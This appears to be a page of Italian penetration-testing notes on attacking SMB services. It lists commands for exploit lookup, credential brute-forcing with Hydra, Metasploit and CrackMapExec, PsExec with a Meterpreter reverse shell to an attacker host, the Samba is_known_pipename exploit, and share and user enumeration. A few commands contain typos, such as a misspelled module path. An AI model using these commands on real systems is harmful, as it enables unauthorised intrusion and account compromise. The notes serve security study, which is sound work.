 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <smb-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

Versioni SMB:
- **SMB 1.0** ⟶ insicuro, supporta accessi anonimi, molte vulnerabilità.
- **SMB 2.0/2.1** ⟶ introdotti con Windows Vista e Server 2008, migliorie in sicurezza e prestazioni.
- **SMB 3.0+** ⟶ da Windows 8 in poi, supporto crittografia, multicanale, virtualizzazione.

---

## Brute Force
Molto probabilmente il servizio sará protetto da credenziali e quindi cerchiamo di trovare con un attacco bruteforce
### Hydra
```bash
hydra -L <userList> -P <passwordList> <IP> smb
```

### Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### CrackMapExec
strumento da riga di comando scritto in Python, progettato per automatizzare la ricognizione e l’attacco a reti Windows, in particolare in ambienti Active Directory. 
```bash
crackmapexec smb <target> -u <userList> -p <passwordList>
#dopo aver ottenuto delle credenziali
crackmapexec smb <target> -u <username> -p <password> --shares     # elenca condivisioni
crackmapexec smb -u <username> -p <password> <target> --users      # enumera utenti
crackmapexec smb -u <username> -p <password> <target> -x "whoami"  # esegue un comando
```
> È potente, ma anche rumoroso nei log di rete: in un test reale, valuta il rischio di account lockout e allarmi SIEM

---

## PsExec (Metasploit)
Dopo aver scovato delle credenziali possiamo usare uno strumento sviluppato da Sysinternals (Microsoft) che permette di eseguire comandi su un sistema Windows remoto come se li stessi eseguendo in locale.
> Attenzione percè funziona solo con credenziali di livello amministrativo e valide (`ADMIN$`, `IPC$`)
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```
## PsExec (Script)
Esiste anche uno script incluso nel pacchetto Impacket, che replica il comportamento di PsExec di Sysinternals
```basg
psexec.py <username>@<IP> cmd.exe # accesso CMD remoto via SMB
```
Percorso tipico: 
```bash
/usr/share/doc/python3-impacket/examples/psexec.py
```

---


## Enumerazione interna
Per poter enumerare bene, si deve andare piú a fondo e quindi esistono diversi strumenti, ognuno con caratteristiche specifiche che li rendono adatti a compiti complementari
### smbclient
strumento da riga di comando incluso nel pacchetto Samba (su Linux), che permette di connettersi a condivisioni SMB/CIFS su server Windows, Linux o Samba.
```bash
smbclient -L //<target>/ -N                    # condivisioni anonime
smbclient -L <IP> -U <username>                # share disponibili per utente
smbclient //<target>/<share> -U <username>     # accesso alla share, inserisci la password in seguito
```
Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`
> File come `*.tar.gz` possono essere estratti con `tar xzf file.tar.gz`

### rpcclient
strumento da riga di comando incluso nel pacchetto Samba, che consente di interagire con i servizi RPC (Remote Procedure Call) dei sistemi Windows.
```bash
rpcclient -U "" <IP>                # connessione null session
rpcclient -U utente <IP>            # connessione usando le credenziali
rpcclient -U utente%password <IP>   # connessione con credenziali insieme
```
Comandi dentro RPC CLient: 
```bash
enumdomusers      # elenca tutti gli utenti del dominio o del sistema locale
enumdomgroups     # elenca tutti i gruppi definiti nel dominio o nella macchina locale
queryuser <RID>   # Permette di ottenere informazioni dettagliate su un singolo utente, partendo dal suo RID
```

### smbmap
strumento da riga di comando scritto in Python che serve per enumerare le condivisioni SMB su sistemi Windows o Samba, e capire che tipo di accesso ha un determinato utente (lettura, scrittura, esecuzione, ecc.).
```bash
smbap -H <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
smbmap -H <IP> -u <username> -p <password>
```
> `R` = lettura <br>
> `W` = scrittura <br>
> `-` = nessun accesso <br>

### enum4linux
strumento da riga di comando, basato su `smbclient`, `rpcclient`, `nmblookup`, usato per enumerare informazioni da sistemi Windows o Samba tramite SMB. Permette di raccogliere dati come utenti, gruppi, condivisioni di rete, nomi NetBIOS, domini, SID e molto altro, anche senza credenziali, sfruttando chiamate RPC e SMB.
```bash
enum4linux <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
enum4linux -u <user> -p <password> <IP>
```

---

## Exploits
Altri exploit utilizzabili sono:
### Linux
```bash
use exploit/linux/samba/is_known_pipename
set RHOST <IP>
check
run
```
otterremo una shell unix sul target.
> se abbiamo delle informazioni su delle share possiamo settare `SMB_SHARE_NAME` con il nome della share nota.

se volessimo upgradare la shell con meterpeteer, usiamo il modulo
```bash
use post/multi/menage/shell_to_meterpreter
set LHOST <IP>
set SESSION <number>
run
```
oppure 
```bash
sessions -u <number>
```
ottenendo un altra sessione meterpeter
```bash
sessions 
```

---

